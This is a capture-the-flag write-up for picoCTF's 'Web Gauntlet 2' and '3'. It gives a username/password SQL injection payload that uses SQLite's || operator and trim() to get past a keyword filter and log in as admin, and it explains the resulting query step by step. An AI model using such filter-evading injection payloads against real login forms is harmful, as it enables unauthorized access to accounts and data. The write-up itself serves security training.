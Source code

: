 ```yaml
---
description: Filtered SQLite injection
---
```


# Web Gauntlet \(170 + 300\)

## Problem

### Web Gauntlet 2

This website looks familiar... Log in as admin 

Site: [http://mercury.picoctf.net:35178/](http://mercury.picoctf.net:35178/) 

Filter: [http://mercury.picoctf.net:35178/filter.php](http://mercury.picoctf.net:35178/filter.php)

### Web Gauntlet 3

Last time, I promise! Only 25 characters this time.

## Solution

### Web Gauntlet 2

Username: `adm' || trim('in',` Password: `) || '`

This will cause the following SQL statement to be executed:

```text
SELECT username, password FROM users WHERE username='adm' || trim('in',' AND password=') || ''
```

Notes:

* `||` is the SQLite concatenation operator.
* `trim(string, character)` will remove `character` from `string`. Here, it is simply for us to ignore the `AND` condition by treating `' AND password='` as a string. Since `' AND password='` does not appear in `'in'`, `trim('in',' AND password=')` will simply return `'in'`.
* The above SQL statement is thus equivalent to: 

```text
SELECT username, password FROM users WHERE username='adm' || 'in' || ''
```

Which is equivalent to:

```text
SELECT username, password FROM users WHERE username='admin'
```

We can now check out the filter page:

![](../../.gitbook/assets/cfd745ed128d4fdea484d02e74f76170.png)

### Web Gauntlet 3

The length requirement is down from 35 characters to 25 characters. Our above solution works for this challenge as well!

![](../../.gitbook/assets/961bccf829724357b9ee05d27beec0fb.png)





